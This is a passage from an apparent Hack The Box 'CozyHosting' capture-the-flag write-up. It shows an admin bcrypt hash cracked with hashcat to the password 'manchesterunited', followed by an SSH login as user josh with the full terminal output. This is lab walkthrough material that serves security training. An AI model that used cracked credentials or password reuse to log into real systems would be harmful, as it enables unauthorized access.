 Now with hashcat Tool I cracked the password of admin that is ⤵️ 

```bash
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```
{: .nolineno}
{: .nolineno}

Now its time for SSH login →

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/CozyHosting]
└─$ ssh josh@cozyhosting.htb 
The authenticity of host 'cozyhosting.htb (10.10.11.230)' cant be established.
ED25519 key fingerprint is SHA256:x/7yQ53dizlhq7THoanU79X7U63DSQqSi39NPLqRKHM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cozyhosting.htb' (ED25519) to the list of known hosts.
josh@cozyhosting.htb is password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 29 09:03:32 AM UTC 2023

  System load:           0.39794921875
  Usage of /:            53.9% of 5.42GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             264
  Users logged in:       0
  IPv4 address for eth0: 10.129.229.88
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f0de

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$
```
{: .nolineno}
{: .nolineno}
